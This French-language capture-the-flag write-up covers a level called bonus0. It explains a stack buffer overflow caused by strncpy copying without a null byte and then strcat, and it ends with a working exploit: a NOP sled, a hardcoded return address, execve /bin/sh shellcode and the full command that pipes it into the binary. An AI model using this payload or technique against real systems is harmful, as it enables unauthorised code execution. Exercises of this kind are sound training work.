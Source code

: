# Bonus0 - Buffer Overflow avec Concaténation

## Fonctionnement du Programme

**Fonction p()**
- Lit jusqu'à 4096 bytes dans un buffer
- Utilise strncpy pour copier 20 bytes dans le buffer destination
- Ne garantit pas de null byte à la fin de la copie

**Fonction pp()**
- Déclare deux buffers locaux : buffer1 et buffer2
- Appelle p() deux fois pour remplir ces buffers
- Concatène les buffers avec un espace entre eux

## Vulnérabilités

1. **strncpy sans null byte**
- La fonction p() copie exactement 20 bytes sans ajouter de null byte

2. **Concaténation dangereuse**
- strcat est utilisés sans vérification de taille 
- buffer2 etant la source et n'ayant pas de null-terminate byte strcat read au dela du buffer

## Processus d'Exploitation

1. **Premier Buffer**
- Rempli avec 20 NOPs
- Sans null byte terminal

2. **Second Buffer**
- 9 NOPs pour atteindre l'adresse de retour / saved eip du main
- Adresse pointant vers notre shellcode
- NOPs supplémentaires + shellcode

3. **Concaténation**
- Les deux buffers sont concaténés avec un espace
- L'overflow écrase l'adresse de retour
- Le flux d'exécution est redirigé vers notre shellcode

4. **Exécution du Shellcode**
- Les NOPs permettent une zone d'atterrissage flexible
- Le shellcode exécute /bin/sh

## Exploitation

```nasm
find /b 0xbfffe590, +2000, 0x6a, 0x0b, 0x58, 0x99, 0x52, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x31, 0xc9, 0xcd, 0x80
```

**Construction du Payload**
```python
# Premier input : 20 NOPs
"\x90" * 20

# Deuxième input : NOPs + Adresse + Shellcode
"\x90" * 9 + "\xbb\xe5\xff\xbf" + "\x90" * 30 + \
"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
```

**Exécution**
```bash
(python -c 'print "\x90"*20' ; python -c 'print "\x90"*9 + "\xbb\xe5\xff\xbf" + "\x90" * 30 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'; cat) | ./bonus0
```
